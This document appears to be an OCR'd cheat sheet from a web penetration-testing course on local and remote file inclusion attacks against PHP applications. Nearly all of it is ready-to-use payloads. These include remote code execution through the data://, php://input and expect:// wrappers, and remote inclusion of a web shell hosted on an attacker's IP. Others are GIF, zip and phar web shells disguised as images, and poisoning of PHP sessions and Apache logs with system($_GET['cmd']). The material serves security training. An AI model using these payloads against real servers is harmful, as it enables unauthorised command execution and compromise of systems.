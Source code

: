 ___

# PHP Wrappers

| `/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id`                    | RCE with data wrapper   |
| --------------------------------------------------------------------------------------------------------------------------- | ----------------------- |
| `curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"` | RCE with input wrapper  |
| `curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"`                                                        | RCE with expect wrapper |

# RFI

| `echo '<?php system($_GET["cmd"]); ?>' > shell.php && python3 -m http.server <LISTENING_PORT>` | Host web shell               |
| ---------------------------------------------------------------------------------------------- | ---------------------------- |
| `/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id`                        | Include remote PHP web shell |

# LFI and File Uploads

| `echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif`                        | Create malicious image                |
| ------------------------------------------------------------------------------ | ------------------------------------- |
| `/index.php?language=./profile_images/shell.gif&cmd=id`                        | RCE with malicious uploaded image     |
| `echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php` | Create malicious zip archive 'as jpg' |
| `/index.php?language=zip://shell.zip%23shell.php&cmd=id`                       | RCE with malicious uploaded zip       |
| `php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg`            | Create malicious phar 'as jpg'        |
| `/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id`     | RCE with malicious uploaded phar      |
# Log Poisoning


| `/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd`         | Read PHP session parameters       |
| ----------------------------------------------------------------------------------- | --------------------------------- |
| `/index.php?language=%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E`       | Poison PHP session with web shell |
| `/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id`  | RCE through poisoned PHP session  |
| `curl -s "http://<SERVER_IP>:<PORT>/index.php" -A '<?php system($_GET["cmd"]); ?>'` | Poison server log                 |
| `/index.php?language=/var/log/apache2/access.log&cmd=id`                            | RCE through poisoned PHP session  |


